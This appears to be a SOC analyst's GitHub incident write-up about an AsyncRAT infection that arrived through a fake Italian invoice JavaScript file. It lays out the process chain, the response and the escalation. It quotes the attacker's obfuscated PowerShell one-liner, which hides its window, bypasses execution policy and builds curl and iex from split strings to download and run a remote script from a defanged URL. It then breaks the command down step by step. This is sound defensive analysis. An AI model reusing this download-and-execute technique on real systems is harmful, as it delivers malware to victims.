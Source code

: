 # incident-AsyncRAT

![image alt](https://github.com/dita-cyber/incident-AsyncRAT/blob/69df1a142796b4e89f004cac8a2aaa4e5ebd004c/asrat.png)

As a SOC analyst, I recently worked on an incident involving "Execution via PowerShell" that was flagged by CrowdStrike Falcon. The alert was related to AsyncRAT, a stealthy malware variant known for its ability to establish intermittent, non-persistent communication with a C2 server using protocols like HTTP/S or DNS. It often leverages encryption and obfuscation to evade detection, making it a particularly challenging threat to tackle.

Timeline of events observed:

HOST > winlogon.exe > userinit.exe > explorer.exe > msedge.exe > wscript.exe > powershell.exe

The command line involved in the incident was:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl'); mint -useb hXXp[:]//XXXXXXXXX.XX/1.php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"

Breaking down the command, it was observed:

Alias Obfuscation with:
string formatting (-f) to concatenate cu and rl 
curl is an alias for Invoke-WebRequest

Downloading Payload: 
The -useb flag is short for -UseBasicParsing, which simplifies the web request by avoiding the Internet Explorer engine.

Code Execution: 
The pipe |  sends the downloaded script content to iex  (short for Invoke-Expression ), executing it as PowerShell code.

Further investigation revealed that a JavaScript file was downloaded:
"C:\Windows\System32\WScript.exe" "C:\Users\USERNAME\Downloads\FatturaXXXXXXXXX.js"

Upon analyzing the URL on VirusTotal, it was confirmed as malicious. The JavaScript file was also flagged as malicious after being run in Joe Sandbox, revealing a 100% malicious behavior.

Response and escalation performed:
Fortunately, the host was already contained, and all processes related to the incident were blocked. I sent an escalation report to the client, detailing the findings and IOCs.

I also performed further investigation to trace the event's origin. I investigated the wscript.exe process using the query field to search for the JavaScript file name, "FatturaXXXXXXX.js," and discovered a log entry with a previously unseen Host URL. Analyzing this URL in Joe Sandbox showed page was not reacheble anymore and checking VirusTotal for the domain returned as 2/97 malicious. 

Interestingly, the client is an Italian company, and "fattura" means "invoice" in Italian. It appears to be part of a broader campaign targeting various countries using fake invoices to infect hosts.

